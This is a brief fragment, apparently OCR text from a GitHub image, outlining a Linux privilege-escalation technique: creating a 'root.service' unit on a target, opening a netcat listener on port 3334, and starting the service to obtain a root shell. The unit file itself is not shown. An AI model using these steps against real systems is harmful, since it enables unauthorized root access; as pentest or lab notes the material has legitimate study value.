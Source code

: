 1. create root.service file on target

2. set up a listener 

  nc -lvp 3334
  
3. run 
 
  systemctl start root
